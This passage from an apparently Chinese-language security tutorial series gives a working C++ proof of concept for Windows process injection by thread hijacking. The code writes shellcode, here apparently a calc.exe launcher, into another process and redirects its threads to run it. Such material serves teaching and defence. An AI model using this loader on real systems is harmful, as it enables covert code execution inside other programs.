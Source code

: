 ### POC
程式專案可以參考我的 GitHub [zeze-zeze/2021iThome](https://github.com/zeze-zeze/2021iThome/tree/master/Shellcode%E8%88%87%E4%BB%96%E7%9A%84%E5%BF%AB%E6%A8%82%E5%A4%A5%E4%BC%B4/ShellcodeLoaderThreadHijack)。
```cpp=
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>

int main()
{
    char shellcode[] = "\x50\x53\x51\x52\x56\x57\x55\x89\xE5\x83\xEC\x18\x31\xF6\x56\x68\x78\x65\x63\x00\x68\x57\x69\x6E\x45\x89\x65\xFC\x64\x8B\x1D\x30\x00\x00\x00\x8B\x5B\x0C\x8B\x5B\x14\x8B\x1B\x8B\x1B\x8B\x5B\x10\x89\x5D\xF8\x8B\x43\x3C\x01\xD8\x8B\x40\x78\x01\xD8\x8B\x48\x24\x01\xD9\x89\x4D\xF4\x8B\x78\x20\x01\xDF\x89\x7D\xF0\x8B\x50\x1C\x01\xDA\x89\x55\xEC\x8B\x50\x14\x31\xC0\x8B\x7D\xF0\x8B\x75\xFC\x31\xC9\xFC\x8B\x3C\x87\x01\xDF\x66\x83\xC1\x08\xF3\xA6\x74\x0A\x40\x39\xD0\x72\xE5\x83\xC4\x24\xEB\x3F\x8B\x4D\xF4\x8B\x55\xEC\x66\x8B\x04\x41\x8B\x04\x82\x01\xD8\x31\xD2\x52\x68\x2E\x65\x78\x65\x68\x63\x61\x6C\x63\x68\x6D\x33\x32\x5C\x68\x79\x73\x74\x65\x68\x77\x73\x5C\x53\x68\x69\x6E\x64\x6F\x68\x43\x3A\x5C\x57\x89\xE6\x6A\x0A\x56\xFF\xD0\x83\xC4\x44\x5D\x5F\x5E\x5A\x59\x5B\x58\xC3";

    // 1. 取得目標 Process ID，因為是 x86 Shellcode，所以要找 32-bit Process
    // 不能用自己這個 Process，不然後面 SuspendThread 會卡住自己
    DWORD targetPID = 3776;
    HANDLE targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);

    // 2. 開啟目標 Process，申請一塊記憶體後把 Shellcode 寫入目標 Process
    PVOID remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof(shellcode), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof(shellcode), NULL);

    // 3. 建立 Snapshot，取得 Process 與 Thread 的資訊
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);

    // 4. 迴圈跑過所有的 Thread，並篩選出目標 Process 中的 Thread
    THREADENTRY32 threadEntry;
    threadEntry.dwSize = sizeof(THREADENTRY32);
    Thread32First(snapshot, &threadEntry);
    while (Thread32Next(snapshot, &threadEntry))
    {
        if (threadEntry.th32OwnerProcessID == targetPID)
        {
            // 5. 開啟目標 Thread，將狀態改為 Suspended
            HANDLE threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, threadEntry.th32ThreadID);
            SuspendThread(threadHijacked);

            // 6. 修改 Context 中的 EIP，改成我們的 Shellcode 位址
            CONTEXT context;
            context.ContextFlags = CONTEXT_FULL;
            GetThreadContext(threadHijacked, &context);
            context.Eip = (DWORD_PTR)remoteBuffer;
            SetThreadContext(threadHijacked, &context);

            // 7. 讓 Thread 回復執行
            ResumeThread(threadHijacked);
        }
    }
}
```
